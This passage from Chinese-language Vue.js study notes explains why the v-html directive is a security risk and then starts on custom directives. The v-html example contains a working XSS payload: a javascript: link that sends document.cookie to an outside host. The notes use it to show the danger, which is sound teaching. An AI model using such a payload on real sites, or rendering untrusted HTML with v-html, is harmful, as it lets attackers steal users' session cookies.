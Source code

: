 ![image-20230921105501830](D:\typora_photo\image-20230921105501830.png)

##### 示例：v-html的安全性问题

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
    <div id="root">
        <div>{{name}}</div>
        <!-- 功能相似 -->
        <div v-html="str">哈哈</div>
        <div v-html="str1"></div>
    </div>
    <script type="text/javascript">
        Vue.config.productionTip = false;
        new Vue({
            el: '#root',
            data: {
                name: "你好",
                str: '<h3>你好呀</h3>',
                str1: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>重要信息</a>'
            }
        })
    </script>
</body>
</html>
```

![image-20230921111541827](D:\typora_photo\image-20230921111541827.png)

![image-20230921111550894](D:\typora_photo\image-20230921111550894.png)

#### 2.11.2 自定义指令

1.注册全局指令

2.注册局部指令

##### 注意：

自定义指令的过程中，通过函数的方式构造指令，其中传入的两个参数分别是element与binding，即是真实dom元素与包含有自定义指令信息的对象：

![image-20230921210506981](D:\typora_photo\image-20230921210506981.png)

![image-20230921164824434](D:\typora_photo\image-20230921164824434.png)
